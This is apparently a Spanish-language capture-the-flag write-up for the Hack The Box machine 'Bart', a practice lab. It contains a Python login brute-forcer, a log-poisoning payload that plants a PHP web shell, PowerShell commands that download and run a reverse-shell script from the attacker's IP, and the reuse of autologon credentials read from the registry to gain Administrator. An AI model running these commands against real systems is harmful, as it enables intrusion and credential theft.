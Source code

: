 # Bart-HTB

## NMAP 

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/2d9d0c51-4e1f-49f5-a613-c08cf759eedf)

Ponermos en el hosts el subdominio "http://forum.bart.htb/"  Si vemos la pagina tiene varios usuarios (moraleja siempre revisa los comentatios html <!-- )

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/1cc0bd8a-0fcd-4f13-bf6e-8a1939bdd22e)



## WFUZZ 

Vamos a enumerar en busca de otros subdominios

```bash
 wfuzz -c -t 200  --hc=302,404 -w /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt -H "Host: FUZZ.bart.htb"  http://10.129.96.185/

```

Encontramos un subdominio nuevo "monitor"


![image](https://github.com/gecr07/Bart-HTB/assets/63270579/cc964f92-3d61-49a5-b8a0-419bf0651268)

Si lo revisamos no encontre nada entonces lo que se me ocurre es un ataque de fuerza bruta....

## CEWL

Esto sirve para crear diccionarios en base a las mismas palabras de la pagina.

```bash
cewl -w cewl-forum.txt -e -a http://forum.bart.htb

‐e, ‐‐email
                     Include email addresses.

 ‐a, ‐‐meta
                     Include meta data.


```


### TR Mayusculas a Minusculas

Para cambiar de mayusculas a minuculas

```bash
tr '[:upper:]' '[:lower:]'
```


## Brute Force Alternativa a cosas como Hydra

Esto es una alternativa a hydra para hacer brute force lo que si falta es ponerle hilos para que vaya mas rapido

```python
#!/usr/bin/python3

import requests, pdb, sys, time, re, signal
import urllib3, threading


def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)


signal.signal(signal.SIGINT, def_handler)


url = 'http://monitor.bart.htb/index.php'
burp = { 'http': 'http://127.0.0.1:8080'}



def main():
	#time.sleep(10)
	s=requests.session()
	r = s.get(url)
	#print(r.text)
	csrfToken = re.findall(r'name="csrf" value="(.*?)"',r.text)[0]
	#pdb.set_trace()# l y p para ver valores.


	with open("user.txt", "rb") as users_file:
		usuarios = [linea.decode().strip() for linea in users_file]
	with open("passwords.txt", "rb") as passwords_file:
		contraseñas = [linea.decode().strip() for linea in passwords_file]
		for usuario in usuarios:
			for contraseña in contraseñas:
				#print(f"Probando: Usuario={usuario}, Contraseña={contraseña}")
				post_data = {'csrf': csrfToken,'user_name': usuario,'user_password': contraseña,'action':'Login'}
				r = s.post(url,data=post_data,proxies=burp)
				if "The information is incorrect"  not in r.text:
					print(f"Se encontro una contraseña correcta {usuario}:{contraseña}")
		
		



if __name__ == '__main__':
	main()

```

COn el output de cewl y poniendo todo en minusculas sacamos el password

```
harvey

potter
```

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/e3da1420-e251-40b5-bbf2-b5ced1ed2c9b)

Siemmpre ve si el proyecto es open source en este caso si.

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/5b4852f0-526c-4c36-8e91-61fec50ae625)


Pues yo no hubiera podido ver esto solo pero si intentamos registranos de acuerdo al codigo.

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/371da5fe-0627-4863-9074-ccb5c9ae1516)

```
curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=masa&password=masa1234"
```

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/aa59b77e-66eb-4861-b411-2756aabec176)

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/3ac269b9-79e1-40b5-8f32-24b3c626d805)


Si vemos el codigo vemos algo raro

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/218edb21-ee54-4ac2-bdc8-e627b8089bd8)

Nos encontramos que esa pagina esta como capturando el user agent. Y aparte permite que creemoes un arhivo con lo cual se podria

```
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey

```

### RCE (log poisoning)

Pues se puede hacer de varias maneras pero esta es con python y requests

```
import requests
proxies={'http':'http://127.0.0.1:8080'}
headers={'User-Agent':'MASA: <?php system($_GET['cmd']); ?>'}
r = requests.get('http://internal-01.bart.htb/log/log.php?filename=log1.php&username=harvey', proxies=proxies, headers=headers)

```

Ya sabes log1.php?cmd=descarga tu shell powershell nigsha...

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/61bd98bd-74ba-4d75-bd86-e6b16b4da29b)

Siempre es importante pasarse a la arquitecura de 64 por lo que la manera mas facil por lo menos que yo he visto es nc64.exe. 



### Reverse shell de 32 a 64

Lo que note cuando hice esta pagina es que el proceso donde se obtiene la shell es de 32 por lo que lo mejor es pasarlo a 64 logre esto  llamando al powershell desde la ruta de 32 a 64..

```
http://internal-01.bart.htb/log/log1.php?cmd=C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe%20iex(new-object%20net.webclient).downloadstring(%27http://10.10.14.12/Invoke-PowerShellTcp.ps1%27)

C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe iex(new-object net.webclient).downloadstring('http://10.10.14.12/Invoke-PowerShellTcp.ps1')
```

## Auto logon WinLogon 

Puedes checar si estan confuguradas algunas credenciales para autologon 

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/a36742ef-4d95-4ef8-aa49-c716e0dc10d7)


```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

   LastUsedUsername    REG_SZ    Administrator
    DefaultPassword    REG_SZ    3130438f31186fbaf962f407711faddb


```
## Privilege Escalation

### Powershell “run as”

Que quiere decir correr como eso quiere decir que lo vas a correr en la maquina victima vas a correr un comando como otro usuario en el caso de la maquina bart pues como Administrator ya que tenemos el password:

```
PS C:\Users\Administrator\Documents>

$username = "BART\Administrator"
$password = "3130438f31186fbaf962f407711faddb"
$secstr = New-Object -TypeName System.Security.SecureString
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
Invoke-Command -ScriptBlock { IEX(New-Object Net.WebClient).downloadString('http://10.10.14.12/Invoke-PowerShellTcp.ps1') } -Credential $cred -Computer localhost

```







































